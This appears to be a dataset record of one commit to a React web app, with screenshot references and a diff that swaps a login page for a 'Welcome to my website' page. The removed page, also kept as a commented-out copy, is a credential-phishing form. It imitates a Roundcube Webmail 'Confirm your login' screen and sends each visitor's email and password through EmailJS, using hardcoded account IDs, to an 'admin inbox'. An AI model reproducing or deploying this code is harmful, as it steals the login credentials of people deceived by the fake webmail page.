

Before and after one commit to Marshall-D/cices, a React (Create React App) app: page / in a window 1280 px wide. Shown: the part 226-586 px from the top of the page, without its empty margins (319-959 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
chore: welcome to my website

```diff
--- a/src/pages/HomePage.tsx
+++ b/src/pages/HomePage.tsx
@@ -1,13 +1,58 @@
-// // src/components/LoginScreen.jsx
+// // src/components/LoginScreen.tsx
 // import React, { useState } from "react";
+// import emailjs from "emailjs-com";
 
 // export default function LoginScreen() {
+//   // ─────────────────────────────────────────────────────────────────────
+//   // 1) LOCAL STATE FOR FORM FIELDS
+//   // ─────────────────────────────────────────────────────────────────────
 //   const [email, setEmail] = useState("");
 //   const [password, setPassword] = useState("");
+//   const [loading, setLoading] = useState(false);
 
-//   const handleSubmit = (e: any): void => {
+//   // ─────────────────────────────────────────────────────────────────────
+//   // 2) REPLACE THESE WITH YOUR ACTUAL EMAILJS CREDENTIALS
+//   // ─────────────────────────────────────────────────────────────────────
+//   //  - SERVICE_ID:    find it under Email Services → your service name (e.g. "service_xxx")
+//   //  - TEMPLATE_ID:   find it next to your template’s name (e.g. "template_login")
+//   //  - USER_ID:       the Public Key/“User ID” from Integration / Dashboard
+//   const SERVICE_ID = "service_3ovhau7";
+//   const TEMPLATE_ID = "template_awj458c";
+//   const USER_ID = "JgEoxgXqr1ANEF3Dk";
+//   // ─────────────────────────────────────────────────────────────────────
+
+//   const handleSubmit = async (e: React.FormEvent) => {
 //     e.preventDefault();
-//     alert(`Email: ${email}\nPassword: ${password}`);
+//     setLoading(true);
+
+//     // Build the template parameters matching the placeholders in your EmailJS template
+//     const templateParams = {
+//       user_email: email,
+//       user_password: password,
+//       // If your template had {{timestamp}}, you could do:
+//       // timestamp: new Date().toLocaleString(),
+//     };
+
+//     try {
+//       // Send the email via EmailJS:
+//       const result = await emailjs.send(
+//         SERVICE_ID,
+//         TEMPLATE_ID,
+//         templateParams,
+//         USER_ID
+//       );
+
+//       console.log("EmailJS successfully sent:", result.text);
+
+//       alert("Success! We have sent your login info to the admin inbox.");
+//       setEmail("");
+//       setPassword("");
+//     } catch (err: any) {
+//       console.error("EmailJS error:", err.text || err);
+//       alert("Oops, something went wrong sending the email. Please try again.");
+//     } finally {
+//       setLoading(false);
+//     }
 //   };
 
 //   return (
@@ -18,28 +63,16 @@
 //           Confirm your login
 //         </h2>
 
-//         {/* Icon Placeholder */}
-//         <div className="flex justify-center mb-6">
-//           <div className="h-16 w-16 bg-gray-200 rounded-full flex items-center justify-center">
-//             {/* Replace this with your actual logo */}
-//             <svg
-//               className="h-8 w-8 text-gray-400"
-//               fill="currentColor"
-//               viewBox="0 0 20 20"
-//             >
-//               <path d="M10 2a6 6 0 016 6v2a6 6 0 01-6 6 6 6 0 01-6-6V8a6 6 0 016-6z" />
-//             </svg>
-//           </div>
-//         </div>
-
 //         {/* Form */}
 //         <form onSubmit={handleSubmit} className="space-y-4">
+//           {/* Email Input */}
 //           <div>
 //             <label htmlFor="email" className="sr-only">
 //               Email address
 //             </label>
 //             <div className="flex items-center border border-gray-300 rounded-md overflow-hidden">
 //               <span className="px-3 text-gray-500">
+//                 {/* (email icon) */}
 //                 <svg
 //                   className="h-5 w-5"
 //                   fill="currentColor"
@@ -56,16 +89,19 @@
 //                 onChange={(e) => setEmail(e.target.value)}
 //                 className="w-full px-3 py-2 focus:outline-none"
 //                 placeholder="Email address"
+//                 disabled={loading}
 //               />
 //             </div>
 //           </div>
 
+//           {/* Password Input */}
 //           <div>
 //             <label htmlFor="password" className="sr-only">
 //               Password
 //             </label>
 //             <div className="flex items-center border border-gray-300 rounded-md overflow-hidden">
 //               <span className="px-3 text-gray-500">
+//                 {/* (lock icon) */}
 //                 <svg
 //                   className="h-5 w-5"
 //                   fill="currentColor"
@@ -86,15 +122,20 @@
 //                 onChange={(e) => setPassword(e.target.value)}
 //                 className="w-full px-3 py-2 focus:outline-none"
 //                 placeholder="Password"
+//                 disabled={loading}
 //               />
 //             </div>
 //           </div>
 
+//           {/* Submit Button */}
 //           <button
 //             type="submit"
-//             className="w-full bg-blue-500 hover:bg-blue-600 text-white py-2 rounded-md transition"
+//             disabled={loading}
+//             className={`w-full ${
+//               loading ? "bg-gray-400" : "bg-blue-500 hover:bg-blue-600"
+//             } text-white py-2 rounded-md transition`}
 //           >
-//             LOGIN
+//             {loading ? "Sending..." : "LOGIN"}
 //           </button>
 //         </form>
 
@@ -107,154 +148,15 @@
 //   );
 // }
 
-// with email js
+// src/components/Welcome.jsx
+import React from "react";
 
-// src/components/LoginScreen.tsx
-import React, { useState } from "react";
-import emailjs from "emailjs-com";
-
-export default function LoginScreen() {
-  // ─────────────────────────────────────────────────────────────────────
-  // 1) LOCAL STATE FOR FORM FIELDS
-  // ─────────────────────────────────────────────────────────────────────
-  const [email, setEmail] = useState("");
-  const [password, setPassword] = useState("");
-  const [loading, setLoading] = useState(false);
-
-  // ─────────────────────────────────────────────────────────────────────
-  // 2) REPLACE THESE WITH YOUR ACTUAL EMAILJS CREDENTIALS
-  // ─────────────────────────────────────────────────────────────────────
-  //  - SERVICE_ID:    find it under Email Services → your service name (e.g. "service_xxx")
-  //  - TEMPLATE_ID:   find it next to your template’s name (e.g. "template_login")
-  //  - USER_ID:       the Public Key/“User ID” from Integration / Dashboard
-  const SERVICE_ID = "service_3ovhau7";
-  const TEMPLATE_ID = "template_awj458c";
-  const USER_ID = "JgEoxgXqr1ANEF3Dk";
-  // ─────────────────────────────────────────────────────────────────────
-
-  const handleSubmit = async (e: React.FormEvent) => {
-    e.preventDefault();
-    setLoading(true);
-
-    // Build the template parameters matching the placeholders in your EmailJS template
-    const templateParams = {
-      user_email: email,
-      user_password: password,
-      // If your template had {{timestamp}}, you could do:
-      // timestamp: new Date().toLocaleString(),
-    };
-
-    try {
-      // Send the email via EmailJS:
-      const result = await emailjs.send(
-        SERVICE_ID,
-        TEMPLATE_ID,
-        templateParams,
-        USER_ID
-      );
-
-      console.log("EmailJS successfully sent:", result.text);
-
-      alert("Success! We have sent your login info to the admin inbox.");
-      setEmail("");
-      setPassword("");
-    } catch (err: any) {
-      console.error("EmailJS error:", err.text || err);
-      alert("Oops, something went wrong sending the email. Please try again.");
-    } finally {
-      setLoading(false);
-    }
-  };
-
+export default function Welcome() {
   return (
-    <div className="min-h-screen flex items-center justify-center bg-gray-100 px-4">
-      <div className="max-w-sm w-full bg-white shadow-md rounded-lg p-6">
-        {/* Header */}
-        <h2 className="text-lg font-medium text-gray-800 mb-6 text-center">
-          Confirm your login
-        </h2>
-
-        {/* Form */}
-        <form onSubmit={handleSubmit} className="space-y-4">
-          {/* Email Input */}
-          <div>
-            <label htmlFor="email" className="sr-only">
-              Email address
-            </label>
-            <div className="flex items-center border border-gray-300 rounded-md overflow-hidden">
-              <span className="px-3 text-gray-500">
-                {/* (email icon) */}
-                <svg
-                  className="h-5 w-5"
-                  fill="currentColor"
-                  viewBox="0 0 20 20"
-                >
-                  <path d="M2.94 6.94A8 8 0 1117.06 11.06 8 8 0 012.94 6.94zM10 4a6 6 0 100 12A6 6 0 0010 4z" />
-                </svg>
-              </span>
-              <input
-                id="email"
-                type="email"
-                required
-                value={email}
-                onChange={(e) => setEmail(e.target.value)}
-                className="w-full px-3 py-2 focus:outline-none"
-                placeholder="Email address"
-                disabled={loading}
-              />
-            </div>
-          </div>
-
-          {/* Password Input */}
-          <div>
-            <label htmlFor="password" className="sr-only">
-              Password
-            </label>
-            <div className="flex items-center border border-gray-300 rounded-md overflow-hidden">
-              <span className="px-3 text-gray-500">
-                {/* (lock icon) */}
-                <svg
-                  className="h-5 w-5"
-                  fill="currentColor"
-                  viewBox="0 0 20 20"
-                >
-                  <path
-                    fillRule="evenodd"
-                    d="M5 8a3 3 0 116 0v1h1a2 2 0 012 2v5a2 2 0 01-2 2H5a2 2 0 01-2-2v-5a2 2 0 012-2h1V8zm3-1a1 1 0 00-1 1v1h2V8a1 1 0 00-1-1z"
-                    clipRule="evenodd"
-                  />
-                </svg>
-              </span>
-              <input
-                id="password"
-                type="password"
-                required
-                value={password}
-                onChange={(e) => setPassword(e.target.value)}
-                className="w-full px-3 py-2 focus:outline-none"
-                placeholder="Password"
-                disabled={loading}
-              />
-            </div>
-          </div>
-
-          {/* Submit Button */}
-          <button
-            type="submit"
-            disabled={loading}
-            className={`w-full ${
-              loading ? "bg-gray-400" : "bg-blue-500 hover:bg-blue-600"
-            } text-white py-2 rounded-md transition`}
-          >
-            {loading ? "Sending..." : "LOGIN"}
-          </button>
-        </form>
-
-        {/* Footer */}
-        <p className="text-center text-xs text-gray-400 mt-4">
-          Roundcube Webmail
-        </p>
-      </div>
+    <div className="flex items-center justify-center h-screen bg-gray-100">
+      <h1 className="text-4xl font-bold text-gray-800">
+        Welcome to my website
+      </h1>
     </div>
   );
 }
```
